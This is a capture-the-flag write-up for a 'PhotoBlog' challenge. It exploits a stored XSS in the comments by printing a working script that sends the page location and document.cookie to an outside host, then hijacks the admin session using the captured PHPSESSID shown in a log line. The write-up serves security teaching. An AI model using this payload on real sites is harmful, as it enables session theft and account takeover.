# PhotoBlog

## Task

A friend of mine have stolen my cat's picture on his blog. I want to login as admin user on his blog. Do you have any idea?

## Solution

The website to pown is a photoblog where you can add comments on a cat picture.

By posting comments such as `<script>alert(123)</script>` we notice that there is an XSS vulnerability.

The admin panel is located at the address `admin.php`. Although, when we we try to access it we are redirected to `login.php`.
The XSS vulnerability can be used to get the admin's cookie in order to connect to `admin.php`.

After we posted the following comment 

```javascript
<script>
    im=document.createElement('img');
    im.src="http://rainbowlyte.com/pirate.png?loc="+document.location+"&cookie="+document.cookie; 
    document.body.appendChild(im);
</script>
```

we got the following request in our logs.

```
213.233.185.27 - - [06/Feb/2016:14:52:07 +0100] "GET /pirate.png?loc=http://172.17.118.91:8083/privateindex.php?id=Quokka&cookie=PHPSESSID=515386866780b5f132fc96c02b3ddb82 HTTP/1.1" 404 142 "http://172.17.118.91:8083/privateindex.php?id=Quokka" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) PhantomJS/1.9.0 Safari/534.34"
```

The admin's `PHPSESSID` is `515386866780b5f132fc96c02b3ddb82`.

Once we changed our cookie, we can access `admin.php` and get the flag.